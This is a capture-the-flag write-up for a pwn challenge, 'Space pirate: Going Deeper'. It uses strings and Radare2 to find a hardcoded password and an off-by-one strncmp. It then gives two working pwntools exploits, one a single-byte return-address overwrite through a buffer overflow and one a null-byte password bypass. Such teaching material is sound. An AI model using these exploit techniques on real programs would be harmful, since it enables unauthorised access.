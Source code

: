 # Space pirate: Going Deeper
Now we're on to the second challenge in the "pwn" category. 

## Checking out the binary
Let's start the program first and see what we're dealing with.
![Intro Screen](img/going_deeper_intro.png)

Both option 1. and 2. request some kind of authentication from us, that we can't provide.
If just enter anything we get an error message and the program terminates  
![Auth Fail](img/going_deeper_auth_fail.png)  

Maybe the password is just a string that's saved in the binary itself. Let's check with
```bash
cjreek@kali:~$ strings ./sp_going_deeper
```
We find a pretty suspicious string that might be the password we're looking for:
> ...  
> [\*] Username:  
> [!] Exiting..  
> **DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft**  
> %s[+] Welcome admin! The secret message is:   
> cat flag*  
> %s[-] Authentication failed!  
> ...  

![Fail and Segfault](img/going_deeper_auth_segfault.png)  
When we try, we not only get denied, but it seems like the password is already too big for the internal buffer and causes a buffer overflow with a resulting segmentation fault.

## Debugging and analyzing
Let's load up the binary in Radare2 and let's see what we can find there.
```bash
cjreek@kali:~$ r2 -d ./sp_going_deeper
```
First we analyze the binary
```
[0x00400b47]> aaa
```
Let's see what functions there are:
```lua
[0x00400b47]> afl
0x004007a0    1 43           entry0
0x004007e0    4 42   -> 37   sym.deregister_tm_clones
0x00400810    4 58   -> 55   sym.register_tm_clones
0x00400850    3 34   -> 29   sym.__do_global_dtors_aux
0x00400880    1 7            entry.init0
0x00400c10    1 2            sym.__libc_csu_fini
0x00400c14    1 9            sym._fini
0x004009e9   18 350          sym.admin_panel
0x004008dd    1 191          sym.banner
0x00400750    1 6            sym.imp.time
0x00400740    1 6            sym.imp.srand
0x00400790    1 6            sym.imp.rand
0x004006f0    1 6            sym.imp.puts
0x00400ba0    4 101          sym.__libc_csu_init
0x004007d0    1 2            sym._dl_relocate_static_pie
0x00400b47    1 84           main
0x0040099c    1 77           sym.setup
0x00400760    1 6            sym.imp.setvbuf
0x00400720    1 6            sym.imp.alarm
0x00400887    1 86           sym.read_num
0x00400730    1 6            sym.imp.read
0x00400770    1 6            sym.imp.strtoul
0x004006b8    3 23           sym._init
0x004006e0    1 6            sym.imp.strncmp
0x00400700    1 6            sym.imp.system
0x00400710    1 6            sym.imp.printf
0x00400780    1 6            sym.imp.exit
```
It's time to switch to visual mode
```
[0x00400b47]> V
```
and navigate to the debugging view by pressing ``p`` twice  
Now we navigate to the ``main`` function by opening the command line with ``Shift+:`` and then
```
:> s main
```
We immediately see a call to ``sym.admin_panel`` where the code of the menu options seem to be contained. Let's go there with ``s sym.admin_panel``
By following both the 1. and 2. options  
![Menu Assembly](img/going_deeper_menu.png)  
we finally end up at the code that reads and checks our password input 
![Password Check](img/going_deeper_pw_check.png)

If we take a look at the code we can see 3 potential ways to get to the flag:
1. We change the the value of ``c`` from 3 to 0x1337beef
2. We override the return address to jump right to the code that prints the flag
3. We pass the correct password as input

Let's overflow the buffer and see how the stack looks before and after the overflow, to see what is and is not possible.
We see that ``read()`` reads up to 57 bytes from stdin. Let's put a breakpoint right before and after the call to ``read()`` to look at the stack before and after we overflow the buffer:
```
:> db 0x00400aba
:> db 0x00400abf
```
restart the program with the command ``doo`` and hit ``F9`` to continue execution.  
Select either 1. or 2. in the menu. We hit our first breakpoint and we can take a look at our stack:  
![Stack before](img/going_deeper_stack_before.png)  
We can see the three values (``a``, ``b`` and ``c``) that are checked before the password itself is checked (purple) and we can discover the return address (0x400b94) of ``admin_panel`` (red)

 Let's hit F9 to continue execution and enter the maximum amount of characters (57)
````
[*] Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````
Now we should hit the 2nd breakpoint. Let's look at the stack again:
![Stack after](img/going_deeper_stack_after.png)

As we can see ``a``, ``b`` and ``c`` are untouched by the buffer overflow. So there is at least no direct way to change those values and get access to the flag that way.  
But the return address gets overwritten by the buffer overflow - or at least the least significant byte of the return address.
That should be good enough though, because the code printing the flag (0x00400b**12**) is not too far away from the original return address (0x400b**94**)

## Writing the exploit
So now we are ready to write our exploit

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send payload to jump the code printing the flag at 0x00400b12
payload = b"A"*56 # put anything for the first 56/57 bytes
payload += b"\x12" # change one byte of the return address to point to the system() call printing the flag
r.sendline(payload)
r.interactive()
````

Now if we execute that script we get the flag:

> [+] Starting local process './sp_going_deeper': pid 1735681  
> [*] Switching to interactive mode  
>  
>  [-] Authentication failed!
>  
> [!] For security reasons, you are logged out..  
>  
> HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $   

## An alternative way
So what about passing the right password to the programm so it prints the flag voluntarily?  
We tried that already at the beginning when we found the password with the ``strings`` tool, but it didn't work.
But why did it not work? It's the same password the programm is checking for in the code:
![Strncmp](img/going_deeper_strncmp.png)  
There is a catch. The password "DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft" is 51 characters long, but strncmp is told to compare 52 characters.
The 52. character of the string constant the code is comparing our input to is a null byte (\x00) because c-strings are terminated with a null byte.
The 52. character of our input is actually a new line character (\n or \x0a). So that's why the comparison fails.
But there is nothing preventing us from sending a null byte right after the password with pwntools.
So let's try if that works:

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send password with trailing null byte
payload = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00'
r.sendline(payload)
r.interactive()
````

And for a fact it actually works as well:
> [+] Starting local process './sp_going_deeper': pid 1740782  
> [*] Switching to interactive mode  
>   
> [+] Welcome admin! The secret message is: HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $  
